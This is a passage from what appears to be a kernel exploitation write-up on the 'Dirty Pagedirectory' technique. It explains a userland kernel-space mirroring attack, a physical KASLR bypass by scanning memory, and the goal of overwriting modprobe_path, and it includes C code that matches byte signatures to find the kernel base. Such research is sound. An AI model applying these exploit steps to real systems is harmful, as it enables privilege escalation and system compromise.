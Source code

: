 Copy

Codeblock 5.1.2.7.1: Partial code for the exploit written in C, which allocates the overlapping PMD page by writing to a userland page.

#### 5.1.3. Scanning physical memory

After we have set up the PUD+PMD double alloc, we can leverage the true potential of Dirty Pagedirectory: an kernel-space mirroring attack (KSMA) entirely from userland. We can now write physical addresses as PTE entries to a certain address within the PTE area, and then "dereference" it as a normal page of memory in the PMD area.

In this section, we will acquire the physical kernel base address and then use that to access the modprobe\_path kernel variable with read/write privileges.

##### 5.1.3.1 Finding kernel base address

Here, we apply the mentioned physical KASLR bypass to find the physical kernel base. Assuming a device with 8GiB physical memory, that reduces the memory that needs to be scanned from 8GiB to 2MiB worth of pages. Thankfully, we only need around ~40 bytes per page to decide if it is the kernel base, which means we need to read 512 \* 40 = 20.480 bytes in the worst case to find the kernel base.

In order to determine if the page is the kernel base, I wrote the [`get-sig`](https://github.com/Notselwyn/get-sig) Python scripts, which finds common bytes at the same addresses (signatures), filters out the signatures which are common in physical memory, and converts them into a memcmp statement. By increasing the amount of kernel samples, we can extend the support for other kernels (i.e. other compilers and old versions). The output looks something like the codeblock below.

```c
static int is_kernel_base(unsigned char *addr)
{
	// thanks python

	// get-sig kernel_runtime_1
	if (memcmp(addr + 0x0, "\x48\x8d\x25\x51\x3f", 5) == 0 &&
			memcmp(addr + 0x7, "\x48\x8d\x3d\xf2\xff\xff\xff", 7) == 0)
		return 1;

	// get-sig kernel_runtime_2
	if (memcmp(addr + 0x0, "\xfc\x0f\x01\x15", 4) == 0 &&
			memcmp(addr + 0x8, "\xb8\x10\x00\x00\x00\x8e\xd8\x8e\xc0\x8e\xd0\xbf", 12) == 0 &&
			memcmp(addr + 0x18, "\x89\xde\x8b\x0d", 4) == 0 &&
			memcmp(addr + 0x20, "\xc1\xe9\x02\xf3\xa5\xbc", 6) == 0 &&
			memcmp(addr + 0x2a, "\x0f\x20\xe0\x83\xc8\x20\x0f\x22\xe0\xb9\x80\x00\x00\xc0\x0f\x32\x0f\xba\xe8\x08\x0f\x30\xb8\x00", 24) == 0 &&
			memcmp(addr + 0x45, "\x0f\x22\xd8\xb8\x01\x00\x00\x80\x0f\x22\xc0\xea\x57\x00\x00", 15) == 0 &&
			memcmp(addr + 0x55, "\x08\x00\xb9\x01\x01\x00\xc0\xb8", 8) == 0 &&
			memcmp(addr + 0x61, "\x31\xd2\x0f\x30\xe8", 5) == 0 &&
			memcmp(addr + 0x6a, "\x48\xc7\xc6", 3) == 0 &&
			memcmp(addr + 0x71, "\x48\xc7\xc0\x80\x00\x00", 6) == 0 &&
			memcmp(addr + 0x78, "\xff\xe0", 2) == 0)
		return 1;

	return 0;
}

```

